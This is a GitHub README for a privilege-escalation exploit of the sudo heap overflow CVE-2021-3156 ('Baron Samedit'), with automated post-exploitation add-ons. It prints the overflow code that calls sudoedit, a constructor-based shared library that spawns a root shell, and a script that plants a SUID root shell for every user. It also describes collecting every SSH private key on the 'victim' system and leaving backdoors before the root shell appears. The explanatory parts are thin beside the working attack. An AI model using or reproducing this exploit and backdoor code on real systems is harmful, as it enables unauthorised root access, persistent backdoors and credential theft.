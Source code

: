 # PE_CVE-CVE-2021-3156
Exploit for Ubuntu 20.04 using CVE-2021-3156, enhanced with simple and automated post-exploitation scripts

Besides the root shell you can have:

-A .txt file with all the id_rsa ssh keys configured in the server. See the script: 
[get_all_ssh_keys.sh](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/blob/main/get_all_ssh_keys.sh)


-A privshell executable that allows any user to start a root shell (working on fixing the gcc error). See the script: 
[create_privshell.sh](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/blob/main/create_privshell.sh)


## PoC for the PE_CVE-CVE-2021-3156.

### Requirements

In order to have a successful result, it is necessary that the victim machine has one of the following versions of OS and Sudo: 
 
 -Ubuntu 20.04 (Sudo 1.8.31)
 
 -Debian 10 (Sudo 1.8.27)
 
 -Fedora 33 (Sudo 1.9.2)

 
![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/6cdd3ad0-34af-4b29-81d9-838c757b046f)

In order to make my VM vulnerable, I downgraded my verision of sudo with the following command:
```
$ sudo apt install sudo=1.8.31-1ubuntu1
```

### Exploit

The exploit can work as long as access to the victim system is gained with a user without considerable privileges.

![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/b86c0ad5-32bf-4b9e-9270-a0c3a1434dc7)

You can clone the repo to the victim´s machine or in your local machine and load it with ***wget***

![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/064ba0d1-88be-4347-b20f-08dc80fc7747)

Execute the command "make" to compile the .c files according to the vulnerability
![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/8d486f7e-7c06-456c-be71-1ec5e775e64b)

You´ll get the exploit file, so you can run it with "./"
After you run the exploit, we can now see two files generated in the repository, one that holds all the ssh keys registered on the system and the other hold the executable SUID file that grants a root session to all users. (highlighted in purple)

![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/cdc903a9-2c55-4596-a2c5-2e3ea9f02d31)

You might see an error like the following one:

![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/2dcb86bf-d1b7-4c62-87a5-fc23b084431a)

I'm still trying to solve the error, but I assume it's the shell that generates the exploit. I tried running the ***./create_privshell.sh*** command from root by accessing with ***sudo su*** from a user with appropriate permissions and the script compilation was fine. Alternatively it can be compiled on a different machine and copied over to the victim, that´s why the existence of a wget request.

The script to compile is the following:

```
echo 'int main() { setresuid(0,0,0); system("/bin/sh"); }' > privshell.c
gcc -o privshell privshell.c
rm privshell.c
chown root:root privshell
chmod u+s privshell
```
You can now read the .txt files with all de ssh keys and use the privshell until I fix the gcc error
![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/3a30fa3d-9d88-4080-9120-a1caa3f7d5b4)

## ABOUT CVE-2021-3156.
Dicovered by [Qualys](https://blog.qualys.com/vulnerabilities-threat-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)
	
***CVSS score of 7.8***

CVE-2021-3156, also known as the "Baron Samedit" vulnerability, is a security vulnerability that affects the widely used sudo program on Unix-based operating systems. Sudo is a program that allows users to run commands with elevated privileges, usually by entering their own password or a root password. The vulnerability is caused by a buffer overflow issue in the sudo command's "sudoedit" feature, which allows users to edit files with elevated privileges. 
The vulnerability was first discovered in January 2021 by Qualys Research Labs, and it affects sudo versions from 1.8.2 to 1.8.31p2 and 1.9.0 to 1.9.5p1.

###Very very technical details
Info from: [Qualys](https://blog.qualys.com/vulnerabilities-threat-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)

![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/72774daf-096c-47d5-849e-ec1b11ced8d9)

![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/942f8c2c-9d1a-44de-91bc-2ce0d3e8c15d)

![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/a0875f23-8363-44bc-8a99-df9c3af679a2)


In other words, set_cmnd() is vulnerable to a heap-based buffer overflow, because the out-of-bounds characters that are copied to the “user_args” buffer were not included in its size (calculated at lines852-853).

For the overflow part, I used the  [redhawkeye/sudo-exploit](https://github.com/redhawkeye/sudo-exploit) exploit.c file

It is a bit complex but easily interpretable.

```c
 char *env[] = {
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "X/X",
        concat("LC_ALL=C.UTF-8@", str_repeat('A', 0xd0)),
        NULL
    };
```
This part declares an array of environment variables env that will be passed to the execve system call. The environment variables contain a series of backslashes and a specially crafted variable called LC_ALL which has the value "C.UTF-8@" concatenated with 208 (0xd0) A characters.The C.UTF-8@ value will be passed as the LC_ALL environment variable to the sudoedit command. The 208 A characters are used to overflow a buffer in the sudoedit program and execute arbitrary code.

```c
  char * a = concat(str_repeat('A', 0x70),"\\");
    char * argv[] = {"/usr/bin/sudoedit", "-s", a, NULL};
    execve(argv[0], argv, env);
```
This part declares a variable a that contains a string of 112 (0x70) A characters, followed by a backslash. It then declares an array argv that will be passed to execve. The array contains the path to the sudoedit command (/usr/bin/sudoedit), the -s flag, and the a variable create above.

```c
  execve(argv[0], argv, env);
```

This is the execve system call that actually runs the sudoedit command with the provided arguments and environment variables. The sudoedit program will read the LC_ALL environment variable and attempt to parse it as a file path. The overflowing A characters will be used to write arbitrary data to memory and potentially execute arbitrary code.

So this data in memory reserved for the RCE is going to be used by our file shell_tool.c

```c
__attribute((constructor))
static void sice() {
    setuid(0);
    system("command");
    ...
    system("bash");
 ```

This part of the code declares a function named sice with the ***__attribute__((constructor))*** attribute, so the function will be automatically called when the program starts running, before main() is executed.Inside the sice function, the setuid(0) function is called to set the effective user ID of the process to 0, which is the user ID of the superuser or root. This effectively gives the program root privileges. After that, just using with the argument system("command"), we can do anything we want before the root session appears in the terminal, that´s why I wanted to try the scripting
thing, in order to have some backdors and data exfiltrated before we get the root shell.


I tried to code my own version of the code called ***mybufferof.c***, basically is pretty similar, so feel free to modify the Makefile to test it jeje 


### About the Makefile

```
all:
	gcc bufferof.c -o exploit
	mkdir libnss_X
	gcc -g -fPIC -shared shell_tool.c -o libnss_X/X.so.2
 ```
First we need to compile our exploit and then create the dir "libnss_X". Then the last command compiles the shell_tool.c file and creates a shared object file named X.so.2 in the libnss_X directory:

The -g flag generates debug information for the shared object file.

The -fPIC flag generates position-independent code for shared objects.

The -shared flag specifies that a shared object file should be created.

The resulting shared object file X.so.2 is placed in the libnss_X directory created in the second step.

This is important for the CVE, because of this:

![image](https://github.com/PurpleOzone/PE_CVE-CVE-2021-3156/assets/111320119/b8ac6ceb-3e4e-4b9f-908c-2e5a4126d734)

Data from:[Qualys](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt)

That´s all, enjoy, I guess

